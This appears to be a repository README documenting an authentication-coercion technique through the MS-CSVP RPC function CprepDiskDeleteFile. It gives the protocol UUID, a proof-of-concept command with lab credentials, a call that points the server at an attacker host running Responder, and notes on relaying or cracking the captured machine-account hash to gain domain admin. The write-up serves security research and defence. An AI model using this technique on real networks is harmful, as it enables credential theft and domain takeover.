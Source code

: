 # MS-CSVP - Remote call to CprepDiskDeleteFile (opnum 19)

## Summary

+ **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

+ **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CprepDiskDeleteFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd)

+ **Function operation number**: `19`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskDeleteFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskDeleteFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskDeleteFile(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName
 );
```

## References

+ Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

+ Documentation of function `CprepDiskDeleteFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/d8032240-4b93-42bf-8bb4-32611b611fbd